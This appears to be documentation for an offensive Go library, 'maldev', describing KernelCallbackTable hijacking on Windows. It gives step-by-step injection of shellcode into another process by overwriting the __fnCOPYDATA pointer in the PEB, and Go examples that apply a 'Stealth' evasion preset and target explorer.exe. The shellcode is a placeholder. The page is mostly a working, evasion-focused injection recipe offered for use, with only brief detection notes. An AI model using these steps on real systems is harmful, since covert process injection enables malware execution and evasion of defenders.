

# KernelCallbackTable Hijacking

> **MITRE ATT&CK:** T1055.001 -- Process Injection: DLL Injection | **D3FEND:** D3-PSA -- Process Spawn Analysis | **Detection:** Medium

## For Beginners

Every employee in a company has a speed-dial list for routine tasks: press 1 for IT support, press 2 for HR, press 3 for facilities. Now imagine you sneak into the office and change the number for "facilities" to your own phone number. When the employee presses button 3 as part of their normal routine, they call you instead. After your conversation, you restore the original number so nobody suspects anything.

KernelCallbackTable hijacking works exactly like this. Every Windows process has a table of function pointers in its Process Environment Block (PEB) called the `KernelCallbackTable`. Windows uses this table to dispatch certain messages from the kernel back to user mode. One entry, `__fnCOPYDATA` (index 3), handles `WM_COPYDATA` messages. By overwriting this pointer with the address of your shellcode and then sending a `WM_COPYDATA` message to a window in the target process, Windows calls your shellcode as if it were the legitimate handler. After execution, you restore the original pointer.

This technique does not create any new threads. The shellcode executes in the context of the target process's existing message-handling thread.

## How It Works



**Step-by-step:**

1. **NtQueryInformationProcess** -- Get the PEB address of the target process.
2. **Read KernelCallbackTable** -- Read the pointer at PEB+0x58 (x64) to find the callback table.
3. **Read original __fnCOPYDATA** -- Save the original function pointer at index 3 for later restoration.
4. **Allocate + write shellcode** -- `VirtualAllocEx` (RW) + `WriteProcessMemory` + `VirtualProtectEx` (RX) in the target.
5. **Overwrite __fnCOPYDATA** -- Change KCT[3] to point to the shellcode. Requires `VirtualProtectEx` to make the table writable temporarily.
6. **SendMessage(WM_COPYDATA)** -- Find a window owned by the target process and send `WM_COPYDATA`. The kernel dispatches this through the KernelCallbackTable, calling the shellcode.
7. **Restore original pointer** -- Write back the saved original pointer to avoid crashes on subsequent `WM_COPYDATA` messages.

## Usage

```go
package main

import (
    "log"

    "github.com/oioio-space/maldev/inject"
)

func main() {
    shellcode := []byte{0x90, 0x90, 0xCC}

    // Target must be a GUI process with at least one window.
    targetPID := 1234
    if err := inject.KernelCallbackExec(targetPID, shellcode); err != nil {
        log.Fatal(err)
    }
}
```

## Combined Example

```go
package main

import (
    "log"

    "github.com/oioio-space/maldev/evasion"
    "github.com/oioio-space/maldev/evasion/preset"
    "github.com/oioio-space/maldev/inject"
    "github.com/oioio-space/maldev/process/enum"
)

func main() {
    shellcode := []byte{0x90, 0x90, 0xCC}

    // 1. Apply evasion.
    evasion.ApplyAll(preset.Stealth(), nil)

    // 2. Find a suitable GUI process (e.g., explorer.exe).
    procs, _ := enum.List()
    var targetPID int
    for _, p := range procs {
        if p.Name == "explorer.exe" {
            targetPID = int(p.PID)
            break
        }
    }
    if targetPID == 0 {
        log.Fatal("explorer.exe not found")
    }

    // 3. KernelCallbackTable hijack -- no thread creation.
    if err := inject.KernelCallbackExec(targetPID, shellcode); err != nil {
        log.Fatal(err)
    }
}
```

## Advantages & Limitations

| Aspect | Detail |
|--------|--------|
| Stealth | High -- no thread creation. Execution piggybacks on existing message dispatch. |
| Thread creation | Zero. The shellcode runs on the target's existing message loop thread. |
| Prerequisites | Target must be a GUI process with at least one top-level window (for `WM_COPYDATA` delivery). |
| Restoration | Original pointer is restored after execution, maintaining process stability. |
| Limitations | Requires `PROCESS_VM_READ | PROCESS_VM_WRITE | PROCESS_VM_OPERATION` access. Cannot target console-only processes without windows. The `SendMessage` call is synchronous -- the attacker blocks until the callback returns. |
| Detection vectors | PEB modification monitoring, ETW `WM_COPYDATA` tracing, memory protection changes on the callback table. |

## Compared to Other Implementations

| Feature | maldev | Sliver | CobaltStrike | D3Ext/maldev |
|---------|--------|--------|--------------|--------------|
| KernelCallbackTable hijack | Yes | No | No | No |
| Automatic window discovery | `findWindowByPID()` | N/A | N/A | N/A |
| Pointer restoration | Automatic | N/A | N/A | N/A |
| PEB offset (x64) | 0x58 | N/A | N/A | N/A |
| Protection toggle for KCT | Yes (RW→restore) | N/A | N/A | N/A |

## API Reference

```go
// KernelCallbackExec executes shellcode in a remote process by hijacking
// the __fnCOPYDATA callback in the PEB's KernelCallbackTable.
// After execution, the original callback pointer is restored.
func KernelCallbackExec(pid int, shellcode []byte) error
```
